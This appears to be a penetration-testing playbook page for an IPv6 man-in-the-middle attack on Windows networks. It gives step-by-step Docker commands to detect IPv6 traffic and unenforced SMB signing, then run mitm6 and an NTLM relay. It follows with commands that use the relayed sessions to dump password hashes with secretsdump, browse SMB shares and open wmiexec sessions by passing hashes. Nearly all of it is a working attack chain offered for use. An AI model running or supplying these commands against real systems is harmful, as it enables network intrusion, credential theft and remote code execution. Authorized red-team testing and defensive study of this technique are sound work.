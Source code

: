 # IPV6

## Discovery

First check if IPv6 is being used on the network:

```bash
screen -S tshark -d -m docker run -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_for_ipv6_traffic network_interface to listen on
```

If Ipv6 is not being actively managed by a DNS and DHCP server and IPv6 packets are flowing then we can likely
compromise this network by setting up a DNS server and DHCP server for IPv6. It is worth noting that according to [RFC3484](https://www.ietf.org/rfc/rfc3484.txt)
IPv6 will be preferred over IPv4 which means that once IPv6 is being managed, nodes on the network will send packets via IPv6 as
opposed to IPV4.

To ensure that the attack can be completed, the next step is to check if SMB signing is not required. To discover if SMB is enabled 
but not required, run:

```bash
docker run -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_if_smb_is_required target_ip_address_or_list_of_ips
```

## Exploitation

If SMB is not required then:

```bash
screen -S mitm6 -d -m  docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
start_mitm6 local_network_interface target_domain_name
```

You can interact with the above screen with the command:
```
screen -r mitm6
```

```bash
screen -S ipv6_relay -d -m  docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
start_nltm_relay_ipv6 target_ip_address_or_list_of_ips
```

You can interact with the above screen with the command:

```
screen -r ipv6_relay
```

Detach from a screen using

```bash
Ctrl + A (release before next key) + D
```

You can check if SMB sessions have been created successfully by resuming the `relay_ipv6`
screen and running the `socks` command

If SMB sessions have been created, you can perform a number of actions going forward using proxychains:

- Dumping ashes

    ```bash
    sudo proxychains impacket-secretsdump -no-pass DOMAIN/USER@X.X.X.X 
    ```
- Accessing SMB shares

    ```bash
    proxychains smbclient //10.8.0.99 -U DOMAIN/X.X.X.X     
    ```
- Passing hashes for a WMIexec session

```bash
impacket-wmiexec -hashes xxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxx user@x.x.x.x
```
